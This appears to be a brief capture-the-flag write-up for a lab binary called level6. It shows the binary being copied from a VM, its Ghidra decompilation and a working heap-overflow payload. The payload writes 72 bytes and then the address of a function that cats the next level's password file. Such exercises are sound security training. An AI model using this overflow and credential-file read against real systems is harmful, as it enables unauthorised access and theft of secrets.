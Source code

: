 get the binary on host
* `scp -P 4242 level6@192.168.56.107:./level6 ./binary/level6`

decompile using ghidras
```c
            void main(undefined4 param_1,int param_2)
            {
                undefined4 uVar1;
                code **ppcVar2;
                
                uVar1 = malloc(64);
                ppcVar2 = (code **)malloc(4);
                *ppcVar2 = m;
                strcpy(uVar1,*(undefined4 *)(param_2 + 4));
                (**ppcVar2)();
                return;
            }
            void m()
            {
                put("Nope");
            }
/*08048454*/void n(void)
            {
                 system("/bin/cat /home/user/level7/.pass");
                return;
            }
```
We find found the segfault a index 72\
Like before buffer overflow to jump to other function:\
`./level6 $(python -c 'print "a" * 72 + "\x54\x84\x04\x08"')` 